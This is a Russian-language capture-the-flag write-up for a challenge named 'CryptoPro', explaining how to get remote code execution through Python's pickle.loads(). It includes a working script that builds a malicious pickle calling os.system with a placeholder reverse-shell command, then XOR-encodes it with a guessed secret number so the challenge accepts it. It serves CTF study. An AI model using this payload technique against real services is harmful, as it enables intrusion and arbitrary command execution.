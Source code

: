 # CryptoPro

## Information
!!! Срочно требуются криптоаналитики !!! Нужно разгрузить щебень. Оплата в USDT


## TL; DR
Создать свой сериализованный вредоносный дамп, в котором будет зашито выполнение команд

## Writeup (ru)

Функция `loads()` модуля `pickle` уязвима к выполнению произвольного кода, следовательно для получения RCE нужно сериализовать payload, который в дальнейшем попадет в `pickle.loads()`.

Но дамп кошелька "подписывается" с помощью конкатенации с `secret_number` (число от 10 до 99, которое предстоит угадать) и дальнешего xor'а с известной из исходников переменной `encrypt_key`.

В пейлоаде нужно воссоздать все проделанные преобразования над сериализованным объектом, используя корректный `secret_number` из функции `save()`.

```python
import pickle
import os


class MaliciousCode:
    def __reduce__(self):
        import os
        return (os.system,("command/revshell/whateveruwant", ))


malicious_object = MaliciousCode()

encrypt_key = 'uiweiudwnhefiuwehfiuwefniwuefniuwefnwiuweojfoiwjefijwoifjwoifjowjfoiwjfijewfoijweoifjoiwjefojwfeiojwfoijwoifjwef'
secret_number = 87

data = pickle.dumps(malicious_object)
data = data + int(secret_number).to_bytes(1, 'big')

encrypt_key_bytes = encrypt_key.encode('utf-8')
tmp = b""
for i in range(len(data)):
        tmp += bytes([data[i] ^ encrypt_key_bytes[i % len(encrypt_key_bytes)]])
data = tmp
with open('wallet.bin', 'wb') as f:
        f.write(data)
```

Райтап я дам, скрипт для автоматизации перебора secret_number я не дам.


## Flag
`mireactf{random uuid}`